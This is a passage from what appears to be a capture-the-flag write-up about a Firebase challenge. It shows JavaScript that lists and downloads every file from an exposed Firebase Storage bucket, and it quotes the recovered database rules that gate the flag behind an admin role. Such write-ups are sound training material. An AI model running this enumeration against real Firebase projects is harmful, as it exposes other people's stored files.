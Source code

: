 ```
                const result = await listAll(storageRef);

                if (result.items.length === 0) {
                    console.log("No files found in Firebase Storage.");
                } else {
                    for (const itemRef of result.items) {
                        console.log("Found file:", itemRef.fullPath);
                        await downloadFile(itemRef.fullPath);
                    }
                }
            } catch (error) {
                console.error("Failed to list or download files:", error.message);
            }
        }

        // download a file from firebase storage
        async function downloadFile(filePath) {
            try {
                const fileRef = ref(storage, filePath);
                const url = await getDownloadURL(fileRef);
                console.log("Download URL:", url);

                // create a link element to download the file
                const link = document.createElement('a');
                link.href = url;
                link.download = filePath.split('/').pop();
                document.body.appendChild(link);
                link.click();
                document.body.removeChild(link);

                console.log("File download initiated:", filePath);
            } catch (error) {
                console.error("Failed to download file:", error.message);
            }
        }

        // start the process as soon as the script is loaded
        listAndDownloadFiles();
    </script>
</body>
</html>
```
This successfully dumped us an image of rules 

![image](https://firebasestorage.googleapis.com/v0/b/udctf24.firebasestorage.app/o/is_this_secure%3F.png?alt=media&token=e027f317-af0e-4170-beab-eead9fb63a1b)

Rules:

```{
  "rules": {
    "users": {
      "$userid": {
        ".read": "$userid === auth.uid",
        ".write": "$userid === auth.uid"
      }
    },
    "rules": {
      ".read": true,
      ".write": false
    },
    "flag": {
      ".write": false,
      ".read": "root.child('users').child(auth.uid).child('roles').child('admin').exists()"
    }
```